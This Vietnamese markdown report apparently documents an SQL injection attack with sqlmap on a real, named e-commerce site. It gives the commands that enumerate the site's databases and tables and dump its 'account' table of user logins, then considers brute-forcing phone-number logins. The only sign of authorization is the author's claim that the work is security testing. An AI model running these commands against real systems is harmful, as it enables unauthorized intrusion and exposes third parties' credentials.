# Mục tiêu
- [x] Tìm kiếm một trang web sử dụng cơ sở dữ liệu MySQL để thực hiện kiểm thử.
- [x] Tìm kiếm các parameter có nguy cơ bị tấn công trên trang web.
- [x] Sử dụng sqlmap để thực hiện tấn công tự động vào các parameter đã tìm được, tìm kiếm nội dung nhạy cảm chứa trong các bảng khác nhau. 
- [ ] Sử dụng thông tin đã tìm được để thực hiện các thao tác tiếp theo.

# Thực nghiệm
Mọi thực nghiệm được áp dụng lên trang web `https://2fly.com.vn/`, có vẻ trang web đã không được cập nhật hay sử dụng trong thời gian dài, dẫn tới nhiều nội dung bị lỗi, không hiển thị hoặc không còn hiển thị nội dung nào. Các cuộc tấn công trong lần thực nghiệm này đều nhằm mục đích kiểm thử bảo mật, không mang ý định tấn công người dùng bất hợp pháp.

## Nội dung thực nghiệm

Qua quá trình sử dụng web, tôi đã tìm được một số parameter:
- q: nội dung tìm kiếm, xuất hiện khi nhập nội dung vào thanh tìm kiếm hoặc chọn một tab bất kỳ trên giao diện trang web.
- id: mã hàng, xuất hiện khi chọn một sản phẩm bất kỳ.

Sử dụng sqlmap lên URL chứa các parameter đã tìm được để kiểm thử:

```bash
python3 sqlmap.py -u "https://2fly.com.vn/products.php?q=a" --dbs
```

- **q**: không thể thực hiện tấn công trên parameter này:

![alt text](images/6.png)

```bash
python3 sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" --dbs
```

- **id**: có thể thực hiện tấn công SQLi, sqlmap trả về được thông tin rằng cơ sở dữ liệu đang MySQL v5.0.12 trở lên (MariaDB). Ngoài ra đã bruteforce được tên 2 cơ sở dữ liệu là `information_schema` và `fly11308_2fly`:

![alt text](images/7.png)

Khi đã xác định được thông tin về cơ sở dữ liệu, ta có thể sử dụng thêm các tuỳ chọn `-D` (tìm kiếm trên một database nhất định), `-T` (tìm kiếm trên một table nhất định), `-C` (tìm kiếm trên một column nhất định), `--tables` (tìm kiếm thông tin về tên các table), `--dump` (trả về tất cả thông tin trong bảng), `--threads` (sử dụng đa luồng để tìm kiếm thông tin, tăng tốc độ bruteforce),...

Sử dụng `python3 sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly --tables --threads=10 ` để trả về tên các bảng trong cơ sở dữ liệu `fly11308_2fly`.

![alt text](images/8.png)

Có thể thấy trong các tên được trả về có bảng `acount`, trong đó có thể sẽ chứa thông tin đăng nhập của một số người dùng. Tiếp tục sử dụng `python3 sqlmap.py -u "https://2fly.com.vn/shop.php?id=12" -D fly11308_2fly -T account --dump --threads=10` để trả về nội dung của bảng `account`.

![alt text](images/9.png)

Khi tới giao diện đăng nhập, ta có thể thấy trang web yêu cầu số điện thoại thay cho tên người dùng và mật khẩu. Vì chưa thể xác định được số điện thoại chính xác nên nếu muốn sử dụng có thể sẽ phải bruteforce lên tới 2 tỷ lần (1 tỷ số điện thoại cho mỗi mật khẩu), việc sẽ sẽ gây tổn thất lớn về thời gian nếu không có được sự hỗ trợ của phần cứng máy tính đủ tốt.